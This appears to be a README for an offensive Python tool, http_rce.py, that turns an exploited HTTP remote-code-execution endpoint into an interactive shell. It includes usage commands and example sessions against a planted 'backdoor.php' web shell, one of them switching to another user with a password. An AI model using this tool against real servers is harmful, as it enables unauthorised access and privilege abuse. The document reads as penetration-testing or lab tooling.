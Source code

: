 # Http Remote Shell

## Introduction

This tool gives a basic command line interface of an exploited HTTP RCE.

This might be useful if no bind-shell, nor reverse-shell can be setup.

NB: The tool spawns a TTY shell with `/usr/bin/script` to correct the error: `su: must be run from terminal` (https://stackoverflow.com/questions/36944634/su-command-in-docker-returns-must-be-run-from-terminal)

## Usage

```bash
$ python3 ./http_rce.py -h
$ python3 ./http_rce.py --url '<URL>' --http-method GET
$ python3 ./http_rce.py --url '<URL>' --http-method GET --user '<USER>' --pass '<PASS>'
```

## Examples

Running as default user (e.g. `www-data`):
```bash
$ python3 ./http_rce.py --url 'http://10.10.10.123/backdoor.php?c=' --http-method GET
bash > whoami
www-data

bash > ls
assets
css
index.php
js

bash >
```

Running as another user (e.g. `foo`):
```bash
$ python3 ./http_rce.py --url 'http://10.10.10.123/backdoor.php?foo1=bar2&cmd=' --http-method GET --user 'foo' --pass 'bar123'
bash > whoami
foo

bash > ls
assets css index.php js

bash >
```

